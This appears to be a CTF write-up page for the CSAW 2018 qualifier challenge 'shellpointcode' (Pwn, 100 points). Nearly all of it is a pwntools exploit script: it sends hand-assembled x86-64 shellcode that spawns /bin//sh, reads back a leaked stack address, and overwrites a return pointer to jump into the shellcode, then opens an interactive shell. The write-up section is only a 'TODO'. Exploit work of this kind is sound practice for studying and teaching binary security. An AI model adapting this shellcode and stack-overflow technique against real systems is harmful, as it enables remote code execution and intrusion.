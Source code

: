 # CSAW ctf quals 2018 : shellpointcode

**Category:** Pwn
**Points:** 100

r = remote("pwn.chal.csaw.io",9005)
#r = process("./shellpointcode")
#context.terminal = ['tmux', 'splitw', '-h']
#gdb.attach(r, gdbscript='''
#continue
#''')

raw_input()
#break *0x555555554918

print r.recvuntil(":")
payload1 = "\x3b\x00\x00\x00\x00\x00\x00\x00" #location
r.sendline(payload1)
print r.recvuntil(":")
payload2 = "\x53\x5e\x55\x53\x5a\x48\x8d\x3c\x24\x50\xB0\x3B\x0f\x05\x90"
# x/20i $rip-20

# push rbx = \x53 push null characters
# pop rsi = \x5e
# push rbp = \x55 push /bin//sh onto stack
# lea rdi, [rsp] = \x48\x8d\x3c\x24
# syscall = \x0F\x05
# pop rax = \x58

# pop rdx = \x5a
# add rsp,0x28 = \x48\x83\xC4\x28

r.sendline(payload2)
print r.recvuntil("0x")
beis = r.recv(12)
log.info("location of Bs: " + beis)
print r.recvuntil("?")
payload3 = "a" * 3 + "\x2F\x62\x69\x6E\x2F\x2F\x73\x68" + p64( int(beis, 16) + 0x8) + "\x00"
#this will have the string of /bin//sh and a null termininator after the popped
r.sendline(payload3)
print "payload sent"
#raw_input()
r.recvline()
r.interactive()

## Write-up

(TODO)

## Other write-ups and resources

* none yet
